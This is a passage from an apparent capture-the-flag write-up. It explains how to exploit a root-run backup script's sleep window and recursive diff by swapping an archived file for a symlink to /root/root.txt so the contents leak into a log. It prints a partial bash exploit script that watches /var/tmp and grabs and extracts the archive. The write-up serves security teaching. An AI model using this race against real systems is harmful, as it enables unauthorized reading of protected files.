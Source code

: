     </div>

    </div>

The `integrity_chk` function is very simple, a recursive `diff` between
the source directory `/var/www.md` and the same directory that was
taken out of the gzip archive.

### Exploiting backeruperer

To exploit this script, I'll take advantage of two things: the sleep,
and the recursive diff. During the sleep, I'll unpack the archive,
replace one of the files with a link to `/root/root.txt`, and re-archive
it. Then when the script opens the archive and runs the diff, the
resulting file will be different, and the contents of both files will
end up in the log file.

I originally did this with a long bash one-liner, but it is easier to
follow with a script:



    #!/bin/bash

    # work out of shm
    cd /dev/shm

    # set both start and cur equal to any backup file if it's there
    start=$(find /var/tmp -maxdepth 1 -type f -name ".*")
    cur=$(find /var/tmp -maxdepth 1 -type f -name ".*")

    # loop until there's a change in cur
    echo "Waiting for archive filename to change..."
    while [ "$start" == "$cur" -o "$cur" == "" ] ; do
        sleep 10;
        cur=$(find /var/tmp -maxdepth 1 -type f -name ".*");
    done

    # Grab a copy of the archive
    echo "File changed... copying here"
    cp $cur .

    # get filename
    fn=$(echo $cur | cut -d'/' -f4)

    # extract archive
    tar -zxf $fn
